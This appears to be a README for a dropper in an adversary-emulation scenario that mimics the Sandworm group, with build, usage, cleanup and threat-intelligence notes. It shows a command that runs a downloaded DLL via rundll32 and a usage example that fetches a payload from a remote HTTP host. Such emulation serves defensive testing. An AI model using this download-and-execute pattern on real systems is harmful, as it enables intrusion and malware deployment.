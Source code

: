 # Exaramel Windows Dropper

This program is used in step5 of the sandworm scenario to download and execute Exaramel-Windows.dll.

This program is executed on target via PsExec.py.

This program then downloads the DLL via HTTP and URLDownloadToFile.

The downloaded DLL is then executed via the C standard library:

```C
system("rundll32.exe evil.dll,Start")
```


## Quick Start

Execute this program on Windows:

```
Usage:
    .\Exaramel-Windows-Dropper.exe <url> <file_path>

Example:
    .\Exaramel-windows-Dropper.exe http://192.168.0.4/getFile/Exaramel-Windows.dll .\Exaramel-Windows.dll
```

`Note: This program does not work with self-signed certificates unless you import the certificate on the target system first.`

## Build Instructions

Download and install a C++ compiler: https://jmeubank.github.io/tdm-gcc/download/

Run the make.bat script from a terminal (cmd.exe):

```
make.bat
```

You should have 'Exaramel-Windows-Dropper.exe' in the current working directory.

## Cleanup Instructions

Delete Exaramel-Windows-Dropper.exe and any downloaded files.

Reboot the system to flush any DLL's from process memory.

## CTI Evidence

Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.

https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/
